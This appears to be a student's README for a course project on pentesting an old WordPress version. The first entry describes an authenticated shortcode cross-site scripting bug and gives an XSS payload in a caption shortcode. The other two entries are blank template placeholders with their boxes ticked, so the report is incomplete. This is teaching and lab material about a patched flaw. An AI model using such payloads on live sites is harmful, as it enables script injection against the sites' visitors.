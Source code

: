 # as7
# Project 7 - WordPress Pentesting

Time spent: **4** hours spent in total

> Objective: Find, analyze, recreate, and document three vulnerabilities affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting 
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1.1
    - Fixed in version: 4.3.1
  - [X] GIF Walkthrough: https://puu.sh/zK4da/f02dedf433.gif
  - [X] Steps to recreate:
    - Make a post with this code: XSS Attack[caption width="1" caption='<.a href="' ">]</a><.a href="http://onMouseOver='alert(1)'">CLICK THIS</a>
    - Access the post.
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
2. WordPress 4.1-4.2.1 - Unauthenticated Genericons Cross-Site Scripting
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version:
    - Fixed in version: 
  - [X] GIF Walkthrough: 
  - [X] Steps to recreate: 
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
3. (Required) Vulnerability Name or ID
  - [X] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [X] GIF Walkthrough: 
  - [X] Steps to recreate: 
  - [X] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
